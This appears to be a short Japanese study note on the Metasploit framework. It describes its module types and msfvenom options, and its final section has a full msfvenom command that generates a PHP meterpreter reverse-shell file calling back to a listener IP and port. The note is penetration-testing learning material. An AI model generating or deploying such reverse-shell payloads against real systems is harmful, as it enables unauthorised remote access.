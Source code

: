 # Metasploit
[公式ドキュメント](https://docs.metasploit.com)

## 概要
Exploitにつかえるツールがたくさん入ってるOSSのツール。Gitで開発に参加もできる。

Metasploitには以下4つのモジュールがある。攻撃するためのタイプではない。データ収集などができる。
- **Auxiliary** => 
- **Exploit** => ターゲットに侵入するためのExploitを実行できる。
- **Payloads** => RCE実行時のペイロード。ユーザ作成やシェルをつないだりといったことができる。
- **Post** => 初期侵入後にセッションからデータを収集・列挙する系のタスク

## Cheat Sheet
Metasploitを起動する。
```
msfconsole
```

## Msfvenom
[Msfvenomのドキュメント](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)

### CheatSheet

-p => カスタムペイロードを使う
-p --payload-options => ペイロードのオプションを表示
-e => エンコードを表示
-a => バイナリが実行されるアーキテクチャを選択
-b => バイナリに使わないバイナリ文字列を選択する。"\x80"とかをいれてNULL文字を含まないようにしたりとか。
-f => アウトプットのフォーマットを選択する。-f cにするとC言語のバイナリ文字列で出せたりする。
--list formats => formatオプションの使用できるオプション一覧を表示する。他のオプションもlist表示できる。

### コマンド集
phpのリバースシェルを生成する
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.45.157 LPORT=4444 -f raw > shell.php
```